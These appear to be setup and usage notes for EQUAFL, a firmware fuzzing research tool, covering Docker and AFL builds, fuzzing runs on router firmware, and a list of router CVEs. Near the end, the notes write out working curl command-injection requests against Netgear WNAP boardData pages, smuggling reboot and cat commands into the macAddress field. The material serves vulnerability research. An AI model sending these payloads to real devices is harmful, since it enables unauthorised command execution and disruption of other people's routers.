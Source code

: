# EQUAFL_setup

pg_dump -U firmadyne -h localhost -f EQUAFL_DATABASE firmware
pg_dump -U firmadyne -h localhost -t image_new -f EQUAFL_IMAGE_NEW firmware


# USAGE
	
	zenodo: https://zenodo.org/record/6580348

	docker pull zyw200/equafl_artifact:0.5
	docker run -it --env USER=root --privileged zyw200/equafl_artifact:0.5 /bin/bash


	apt-get install -y pkg-config libglib2.0-dev autoconf automake libtool
	cd EQUAFL
	./configure --target-list=mipsel-linux-user,mips-linux-user,arm-linux-user --static --disable-werror 
	make

	docker commit xxx zyw200/equafl_full

	docker run -it --env USER=root --privileged zyw200/equafl_full /bin/bash

	docker pull zyw200/equafl_full
	docker run -it -v `pwd`:/root -w /home/yaowen/firmadyne --env USER=root --privileged zyw200/equafl_full /bin/bash



	cd /home/yaowen/firmadyne

	## 19061
	python EQUAFL_setup.py 19061
	python vul_run.py 19061 1 0 0 0 #dir 1 afl keywords_ori 7858     12063   /upload_ca_int
	python vul_run.py 19061 2 0 1 0 #dir 2 afl keywords_static  7859     4505    /upload_ca_int
	python vul_run.py 19061 3 1 0 0 #dir 3 afl++ -D keywords_ori    
	python vul_run.py 19061 4 1 1 0 #dir 4 afl++ -D keywords_static
	python vul_run.py 19061 5 2 1 0 #dir 5 afl++-new keywords_static

	python vul_run.py 19061 6 0 1 0 #dir 6 afl keywords_static 3144
	python vul_run.py 19061 7 0 2 0 #dir 7 afl keywords_static_sorted  3513
	python vul_run.py 19061 8 0 2 0 #dir 8 afl keywords_static_sorted  1974

	python vul_run.py 19061 9 3 2 0 #dir 8 afl-new keywords_static_sorted  560
	python vul_run.py 19061 10 3 2 0 #dir 8 afl-new keywords_static_sorted  1062

	get the pc trace before recv
	python vul_run.py 19061 1 0 0 1

	## 18627 userfs/bin/boa  /HNAP1
	python EQUAFL_setup.py 18627
	python vul_run.py 18627 1 0 0 1 # get recv addr
	python vul_run.py 18627 1 0 0 0 #dir 1 afl keywords_ori
	python vul_run.py 18627 2 3 1 0 #dir 2 afl-new keywords_static

	## 16157  bin/boa  GET /HTTP/1.6 integer overflow
	python EQUAFL_setup.py 16157 
	python vul_run.py 16157 1 0 0 1 # get recv addr
	python vul_run.py 16157 1 0 0 0 #dir 1 afl keywords_ori  329
	python vul_run.py 16157 2 3 2 0 #dir 1 afl-new keywords_static_sorted  111

	## 20880 sbin/httpd  fgetc()? GET /vct_wan GET /chklst.txt
	python EQUAFL_setup.py 20880
	python vul_run.py 20880 1 0 0 1 # get recv addr
	python vul_run.py 20880 1 0 0 2 #dir 1 afl keywords_ori qemu-cmd  6713
	python vul_run.py 20880 2 3 2 2 #dir 2 afl-new keywords_static_sorted  qemu-cmd 36 /save_log  


	## 108076
	python EQUAFL_setup.py 108076
	python vul_run.py 108076 1 0 0 1 # get recv addr

	## 16835
	python EQUAFL_setup.py 16385
	python vul_run.py 16385 1 0 0 1 # get recv addr

	# 2541
	python vul_run.py 2541 1 3 0 2


	# obtina keywords 	
 	# python2 ida_open_program.py 19061 httpd /home/yaowen/firmadyne/image_19061/
	# python2 ida_open_program.py 18627 httpd /home/yaowen/firmadyne/image_18627/
	# python2 ida_open_program.py 16157 httpd /home/yaowen/firmadyne/image_16157/
	# python2 ida_open_program.py 20880 httpd /home/yaowen/firmadyne/image_20880/
	# python2 ida_open_program.py 108076 httpd /home/yaowen/firmadyne/image_108076/
	# python2 ida_open_program.py 16385 httpd /home/yaowen/firmadyne/image_16385/

	docker run -it -v `pwd`:/root -w /home/yaowen/firmadyne --env USER=root --privileged zyw200/equafl_full sh -c "python vul_run.py 19061 3 1 0"
	docker run -it -v `pwd`:/root -w /home/yaowen/firmadyne --env USER=root --privileged zyw200/equafl_full sh -c "python vul_run.py 19061 4 1 1"

	16157 WN2000RPTv1	
	108076 WNDRMACv2 few seconds
	20880 dir-825
	16835 DSP-W215 few seconds
	18627 dsl-2740r test 
	19061 dap-2330 test


	In paper, 16385, 2563, 109080, 18627, 7023, 106869


	ps -aux | grep qemu |awk '{print $2}'| xargs kill -9

# EQUAFL++
	ida_open_program.py
	analysis.py
	require lib_arg_num, which stores the argument number of the library function
	keywords: keywords/httpd/19061 (original keyords) keywords/httpd/19061_static (keywords after static analysis)

# AFLPlusplus
	firmadyne_scripts/afl-fuzz.c  used for IoT program testing   modification: change_argv before execv()
	for AFLplusplus/src/afl-forkserver.c, also add change_argv, can find in EQUAFL++

	move macro, eff_map and DICTIONARY STUFF in the front. Note that there are two in both fuzz_one_original and mopt_common_fuzzing.

	EQUAFL++/afl-fuzz-one-dict.c is the modification of afl-fuzz-one.c, which put the dictionary stuff in front of other mutation strategy
	

	Compilation: make STATIC=1



	https://aflplus.plus/docs/binaryonly_fuzzing/
	https://gitee.com/paulisusu/AFLplusplus/blob/stable/qemu_mode/README.persistent.md

# Server

	10.96.183.253 csl-conti-dell7858
	10.96.183.230 csl-conti-dell7859

	ps -aux | grep qemu |awk '{print $2}'| xargs kill -9
	ps -aux | grep afl-fuzz | awk '{print $2}'| xargs kill -9
	ps -aux | grep ida |awk '{print $2}'| xargs kill -9
	ps -aux | grep ssh |awk '{print $2}'| xargs kill -9

	# 11.21
	#python3 EQUAFL_test_parallel.py 5 19061 0
	#python3 EQUAFL_test_parallel.py 5 19061 2

	#python3 EQUAFL_test_parallel.py 5 18627 0
	#python3 EQUAFL_test_parallel.py 5 18627 2

	#python3 EQUAFL_test_parallel.py 5 16157 0
	#python3 EQUAFL_test_parallel.py 5 16157 2


	#python3 EQUAFL_test_parallel.py 5 20880 0  # 7858 server
	#python3 EQUAFL_test_parallel.py 5 20880 2  # 7858 server

	# python3 EQUAFL_test_parallel.py 5 19061 1  
	# python3 EQUAFL_test_parallel.py 5 18627 1  

	# python3 EQUAFL_test_parallel.py 5 19061 3
	# python3 EQUAFL_test_parallel.py 5 18627 3

	# python3 EQUAFL_test_parallel.py 5 16157 3
	# python3 EQUAFL_test_parallel.py 5 20880 3
	# python3 EQUAFL_test_parallel.py 5 19061 4

	#10.30 second round, in the first round, the speed for mode 2 is slow (reason may be qemu-cmd or the server)
	# python3 EQUAFL_test_parallel.py 5 19061 2
	# python3 EQUAFL_test_parallel.py 5 18627 2


# COMMAND INJECTION INFO
	
	DIR-825 CVE-2020-10213 command set_sta_enrollee_pin.cgi wps_sta_enrollee_pin
	DIR-825 CVE-2020-10214 overflow ntp_sync.cgi ntp_server
	DIR-825 CVE-2020-10215 command dns_query.cgi dns_query_name
	DIR-825 CVE-2020-10216 command system_time.cgi date

	13349, 'tew-673gru', 'FW100B36', CVE-2018-19239

	https://packetstormsecurity.com/files/150693/TRENDnet-Command-Injection-Buffer-Overflow-Cross-Site-Scripting.html

	2541, 'wnap320'  2.0 192.168.0.100 CVE-2016-1555
	2540, 'wnap320'  2.0.3 example firmware in firmadyne
	curl -L --max-redir 0 -m 5 -s -f -X POST -d "macAddress=000000000000;reboot;&reginfo=1&writeData=Submit" http://192.168.0.100/boardDataWW.php
	curl -L --max-redir 0 -m 5 -s -f -X POST -d "macAddress=000000000000;reboot;&reginfo=1&writeData=Submit" http://192.168.0.100/boardDataNA.php

	108841, 'wnap210v2' 192.168.0.236
	curl -L --max-redir 0 -m 5 -s -f -X POST -d "macAddress=000000000000;cat DEADBEEF1;&reginfo=1&writeData=Submit" http://192.168.0.236/boardDataJP.php

	20195 dir-865l cve-2018-6530 1-06 mipsel
	1.08b01 has vulnerabiltiy
	10132	DIR-865L_REVA_FIRMWARE_PATCH_1.08.B01.ZIP


	./configure --target-list=mipsel-linux-user,mips-linux-user --static --disable-werror

# root cause analysis

	CVE-2016-1555  cmd sbin/lighttpd -> boardDataWW.php -> exec(wr_mfg_data) -> system